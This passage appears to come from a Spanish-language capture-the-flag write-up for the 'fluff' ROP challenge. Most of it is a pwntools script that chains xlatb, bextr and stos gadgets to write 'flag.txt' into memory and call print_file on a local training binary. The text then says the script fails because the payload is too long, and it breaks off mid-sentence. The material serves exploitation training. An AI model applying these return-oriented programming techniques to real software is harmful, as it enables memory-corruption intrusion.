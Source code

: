 Una primera aproximación sería:

```python
from pwn import *


offset = b'A'*40
subtract = 0x3ef2

xlatb_ret = p64(0x400628)
poprdx_rcx_addrcx_bextr_ret = p64(0x40062a)
stosrdi_ret = p64(0x400639)
poprdi_ret = p64(0x4006a3)
moveax0_poprbp_ret = p64(0x400610)
ret = p64(0x400295)

addr_flag = ['0x4003c4', '0x4003c5' , '0x4003d6', '0x4003cf', '0x40024e', '0x400192', '0x400246', '0x400192']
addr_str = 0x601028
print_file = p64(0x400510)

payload = offset 

for i in range(len(addr_flag)):
    payload += moveax0_poprbp_ret
    payload += p64(1)                   #for rbp
    payload += poprdx_rcx_addrcx_bextr_ret
    payload += p64(0x4000)                   #take 8 bytes
    payload += p64(int(addr_flag[i], 16) - subtract)         # take correct value rcx: the address contain char in "flag.txt"
    payload += xlatb_ret                #take the one byte at the address which stores in rbx to al 
    payload += poprdi_ret
    payload += p64(addr_str + i)
    payload += stosrdi_ret
    
payload += poprdi_ret
payload += p64(addr_str)
payload += ret
payload += print_file

with open("debug", "wb") as binary_file:
    binary_file.write(payload)
    
r = process('./fluff')
r.recvuntil(b'> ')
r.sendline(payload)
r.interactive()
```

Sin embargo, este script no funciona, ya que el payload es demasiado largo.

Una forma de acortarlo sería cambiar este gadget:
